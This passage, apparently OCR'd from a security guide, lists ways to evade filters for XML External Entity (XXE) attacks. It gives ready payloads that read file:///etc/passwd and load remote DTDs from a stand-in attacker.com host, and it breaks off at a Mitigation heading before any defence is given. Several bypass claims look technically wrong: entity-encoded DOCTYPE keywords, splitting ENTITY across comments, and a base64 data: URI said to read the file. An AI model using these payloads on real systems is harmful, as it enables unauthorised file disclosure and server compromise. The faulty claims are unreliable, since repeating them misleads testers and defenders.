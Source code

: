     This encodes "ENTITY" in decimal (69 for 'E', 78 for 'N', etc.). In hex, it would be `<!&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59; xxe SYSTEM "file:///etc/passwd">`.

**4. Using DTD Chaining:**

*   If you have control over external DTDs, you can chain DTDs to bypass filters. This involves referencing a remote DTD file hosted by the attacker:

    ```xml
    <!DOCTYPE foo [ 
    <!ENTITY % remote SYSTEM "http://attacker.com/external.dtd">
    %remote;
    ]>
    ```

    The external DTD file (`external.dtd`) can define the malicious entity, bypassing local filters.

**5. XML Comments:**

*   Sometimes filters miss entities hidden inside XML comments. You can obfuscate the payload by breaking the word `ENTITY` into parts:

    ```xml
    <!DOCTYPE foo [ 
    <!--<!ENTITY xxe SYSTEM "file:///etc/passwd">-->
    <!ENT--><!--ITY xxe SYSTEM "file:///etc/passwd">-->
    ]>
    ```

**6. Base64 Encoding:**

*   You might be able to encode the payload and then decode it at runtime. Some parsers allow you to inject **base64-encoded** external entities and decode them:

    ```xml
    <!DOCTYPE foo [ 
    <!ENTITY xxe SYSTEM "data:text/plain;base64,L2V0Yy9wYXNzd2Q=">
    ]>
    <foo>&xxe;</foo>
    ```

    This base64 string decodes to `/etc/passwd`.

**7. Alternative External Sources (e.g., `SYSTEM` or `PUBLIC`):**

*   Instead of using `ENTITY`, try to reference external files or URLs using alternative methods. For example:

    ```xml
    <!DOCTYPE foo PUBLIC "-//OASIS//DTD Entity Resolution XML//EN" "http://attacker.com/malicious.dtd">
    ```

    Here, the external DTD contains the payload, and you avoid using the `ENTITY` keyword.

## Mitigation:

From a defensive perspective, to mitigate XXE attacks:
